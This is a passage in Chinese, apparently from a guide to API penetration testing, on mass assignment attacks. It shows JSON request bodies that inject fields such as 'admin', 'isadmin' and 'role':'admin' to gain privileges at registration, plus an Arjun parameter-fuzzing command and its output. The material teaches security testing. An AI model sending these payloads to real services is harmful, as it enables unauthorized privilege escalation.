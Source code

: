```
POST /create/user
`--snip--`
{
"username": "hapi_hacker"
"pass": "ff7ftw",
**"uam": 1,**
**"mfa": true,**
**"account": 101**
}
```

在一个端点中使用的参数可能会对通过另一个端点进行大规模赋值攻击有用。当你不理解某个参数的用途时，就是该穿上实验外套进行试验的时候了。尝试通过将`uam`设为零，`mfa`设为 false，以及将`account`设置为 0 到 101 之间的每个数字进行模糊测试，然后观察服务提供商的响应。更好的是，尝试使用前一章讨论的各种输入。通过收集端点中的参数构建词汇表，然后通过提交包含这些参数的请求来锻炼你的模糊测试技巧。账户创建是进行此操作的一个好地方，但不要仅限于此。

### 盲目大规模赋值攻击

如果你在上述讨论的位置找不到变量名，你可以执行盲目大规模赋值攻击。在这种攻击中，你会尝试通过模糊测试来暴力破解可能的变量名。发送一个包含多个可能变量的单一请求，例如以下内容，并观察哪些能成功：

```
POST /api/v1/register
`--snip--`
{
"username":"hAPI_hacker",
"email":"hapi@hacker.com",
"admin": true,
"admin":1,
"isadmin": true,
"role":"admin",
"role":"administrator",
"user_priv": "admin",
"password":"Password1!"
}
```

如果一个 API 存在漏洞，它可能会忽略无关的变量，只接受与预期名称和格式匹配的变量。

## 使用 Arjun 和 Burp Suite Intruder 自动化大规模赋值攻击

与许多其他 API 攻击一样，你可以通过手动修改 API 请求或使用像 Arjun 这样的工具进行参数模糊测试来发现大规模赋值漏洞。正如你在以下 Arjun 请求中看到的，我们使用`–headers`选项包含了授权令牌，指定了 JSON 作为请求体的格式，并标明了 Arjun 应该测试的确切攻击点，即`$arjun$`：

```
$ **arjun --headers "Content-Type: application/json]" -u http://vulnhost.com/api/register -m JSON --include='{$arjun$}'**

[~] Analysing the content of the webpage
[~] Analysing behaviour for a non-existent parameter
[!] Reflections: 0
[!] Response Code: 200
[~] Parsing webpage for potential parameters
[+] Heuristic found a potential post parameter: admin
[!] Prioritizing it
[~] Performing heuristic level checks
[!] Scan Completed
[+] Valid parameter found: user
[+] Valid parameter found: pass
[+] Valid parameter found: admin
```
